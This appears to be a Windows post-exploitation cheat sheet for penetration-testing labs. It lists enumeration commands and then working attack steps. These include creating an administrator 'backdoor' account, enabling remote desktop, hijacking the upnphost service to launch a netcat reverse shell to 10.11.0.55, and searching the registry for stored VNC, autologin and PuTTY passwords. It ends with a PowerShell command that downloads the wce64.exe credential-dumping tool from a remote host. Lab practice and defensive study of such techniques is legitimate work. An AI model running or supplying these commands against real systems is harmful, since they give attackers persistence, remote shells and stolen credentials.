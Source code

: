 
## Windows commands:

`whoami`

`systeminfo | findstr /B "OS"` 

`ipconfig /all`

`netstat -an`

`route print`

`net start`

`tasklist /V`

`net user`

`net user bob`

`net use`

`net share`

`net view`

### Add user
`net user backdoor backdoor123 /add`

### Add user to Administrator group
`net localgroup Administrators backdoor /add`

### Add user to remotedesktop
`net localgroup "Remote Desktop Users" backdoor /add`

### Check Administrators
`net localgroup Administrators`

### Get directory permission

`cacls Music`

or

`icacls Music`

`accesschk.exe -uwcqv "Authenticated Users" *`

`accesschk.exe /accepteula -uwdqs "Users" c:\`

` accesschk.exe -ucqv SSDPSRV`

This command shows which Windows services members of the Users group have write access to:

`accesschk users -cw \*`

`sc qc upnphost`

`sc config upnphost binpath= "C:\Inetpub\scripts\nc.exe 10.11.0.55 1234 -e C:\WINDOWS\System32\cmd.exe"`

`sc config upnphost obj= ".\LocalSystem" password= ""`

`sc qc upnphost`

### remove the dependency:

`$ sc config upnphost depend= ""`



windows service requires the executable to send back some feedback call within 30 seconds after a service had started. Or else, it will considered it as failed start attempt and terminate the service.

there are few workarounds on this, the easiest way is simply wrap your command in cmd.exe. i.e, cmd.exe /k <ur command>.

### RDP Enable

We can enable remote desktop from windows command line by running the following command:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
net start termservice


reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 


### Look for password in registry

#### VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

#### Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

#### SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

#### Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

#### Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

### runas
runas /user:DOMAIN\user cmd.exe

runas /savecred /user:access\administrator "cmd /c type c:\users\administrator\desktop\root.txt > c:\users\security\y.txt"


#### check files in directories

tree /f /a

#### File Download

powershell -command "& { (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/wce64.exe', 'c:\HFS\wce64.exe')}"

